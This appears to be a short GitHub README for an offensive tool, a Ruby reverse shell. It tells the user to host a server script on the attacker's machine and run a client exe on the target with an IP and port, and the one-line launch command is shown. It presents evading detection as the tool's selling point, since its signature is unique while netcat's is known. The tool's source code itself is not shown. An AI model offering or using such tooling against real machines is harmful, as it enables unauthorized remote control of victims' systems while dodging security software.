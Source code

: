 # Ruby Reverse Shell



## Requirements:

**[!] Server that receives the reverse shell must have ruby installed, the victim doesn't**

**[!] You might need to recompile the exe, depending on your architecture.**

<br>
These are scripts/exes that can be used as a better reverse shell. It's a basic reverse shell. Same would be possible using netcat. The advantage is that this program has a unique signature while netcat's exe is known.

<br>
<br>

Host the shell_server.rb on the attacker machine and then use the shell_client.exe / shell_client.rb to connect to it by calling it with these arguments on the target.

```
.\shell_client.exe *IP* *PORT*
```
